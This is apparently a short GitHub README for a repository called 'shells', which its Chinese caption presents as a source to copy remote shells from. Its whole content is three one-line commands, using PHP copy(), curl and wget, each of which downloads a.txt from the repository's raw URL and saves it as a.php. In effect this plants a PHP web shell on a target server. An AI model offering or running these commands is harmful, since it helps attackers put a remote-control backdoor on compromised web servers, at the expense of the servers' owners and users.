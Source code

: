 # shells
> 用于作为远程shell copy地址
* php
```text
copy("https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt",a.php);
```
* curl
curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
* wget
wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php
